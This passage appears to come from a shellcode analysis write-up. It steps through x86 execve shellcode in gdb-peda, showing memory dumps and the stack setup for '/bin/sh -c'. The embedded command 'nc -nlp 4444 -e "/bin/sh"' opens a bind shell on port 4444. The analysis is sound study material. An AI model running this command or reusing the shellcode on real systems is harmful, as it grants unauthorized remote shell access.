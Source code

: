 #### Pointer to location of "nc -nlp 4444 -e \"/bin/sh\" &",0x00
```console
0008| 0xbffff4c6 --> 0x804a05d ("nc -nlp 4444 -e \"/bin/sh\" &")
gdb-peda$ x/30c 0x804a05d
0x804a05d <code+29>:    0x6e    0x63    0x20    0x2d    0x6e    0x6c    0x70    0x20
0x804a065 <code+37>:    0x34    0x34    0x34    0x34    0x20    0x2d    0x65    0x20
0x804a06d <code+45>:    0x22    0x2f    0x62    0x69    0x6e    0x2f    0x73    0x68
0x804a075 <code+53>:    0x22    0x20    0x26    0x0     0x57    0x53
```

#### Our Terminating NULL DWORD
```console
0012| 0xbffff4ca --> 0x
```
+ this is `0x00000000` that is used to terminate the argv[] array. 


## gdb Breakingdown by Instructions

### Setting EAX for the Execve Systemcall
```console
=> 0x804a040 <code>:    push   0xb
   0x804a042 <code+2>:  pop    eax
```
+ Here we see `0xb` pushed and popped from the stack.
+ `0xb` is 11 in decimal and is the systemcall value for execve.


### Pushing "-c",0x00 to the Stack
```console
   0x804a043 <code+3>:  cdq    
   0x804a044 <code+4>:  push   edx
   0x804a045 <code+5>:  pushw  0x632d
=> 0x804a049 <code+9>:  mov    edi,esp
```
+ `cdq` clears the edx register
+ `push edx` is used to push a null onto the stack
  - This is used to terminate the string "-c"
+ `pushw  0x632d` is used reverse ascii for "-c"
+ `mov    edi,esp` is used to save the memory address of our flag string into the edi register.

### Pushing "/bin/sh",0x00 onto the stack
```console
   0x804a04b <code+11>: push   0x68732f
   0x804a050 <code+16>: push   0x6e69622f
=> 0x804a055 <code+21>: mov    ebx,esp
```
+ `push   0x68732f` actaully pushes "/sh" and our null byte onto the stack which will terminate the string.
  - This happens because `0x68732f` is only 3 bytes not four.
```console
gdb-peda$ x/c 0xbffff4d2
0xbffff4d2:     0x2f     /
gdb-peda$ x/c 0xbffff4d3
0xbffff4d3:     0x73     s
gdb-peda$ x/c 0xbffff4d4
0xbffff4d4:     0x68     h
gdb-peda$ x/c 0xbffff4d5
0xbffff4d5:     0x0     NULL
```
  - Above we can see how these bytes fit into memory on the stack.
+ `push   0x6e69622f` pushes ascii "/bin" onto the stack.
+ `mov    ebx,esp` points the ebx register at the memory location of our program string "/bin/sh",0x00.
